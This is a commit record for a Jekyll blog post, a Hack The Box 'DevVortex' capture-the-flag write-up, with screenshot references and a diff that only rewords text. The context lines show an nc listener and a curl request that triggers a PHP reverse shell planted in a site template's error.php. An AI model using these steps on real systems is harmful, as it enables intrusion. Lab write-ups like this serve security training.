

Before and after one commit to Vorkharium/vorkharium.github.io, a Jekyll site: the page built from _posts/2024-11-20-HTB-DevVortex-Write-up.md, in a window 1280 px wide and 900 px high, scrolled down 5515 px. Shown: the whole window, without its empty margins (228-1267 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2024-11-20-HTB-DevVortex-Write-up.md

````diff
--- a/_posts/2024-11-20-HTB-DevVortex-Write-up.md
+++ b/_posts/2024-11-20-HTB-DevVortex-Write-up.md
@@ -76,6 +76,7 @@ feroxbuster -u http://devvortex.htb
 Nothing interesting.
 
 ### Vhost Enumeration
+
 Lets see if we can find any vhost:
 
 ```shell
@@ -182,13 +183,13 @@ Now start our nc listener:
 nc -lvnp 8443
 ```
 
-Visit the following URL to trigger the URL:
+Visit the following URL to trigger the PHP reverse shell inside error.php:
 
 ```shell
 curl -k "http://dev.devvortex.htb/templates/cassiopeia/error.php/error"
 ```
 
-This will trigger our reverse shell and give us a response on our nc listener:
+After that, we will get a response on our nc listener:
 
 ```shell
 listening on [any] 8443 ...
````
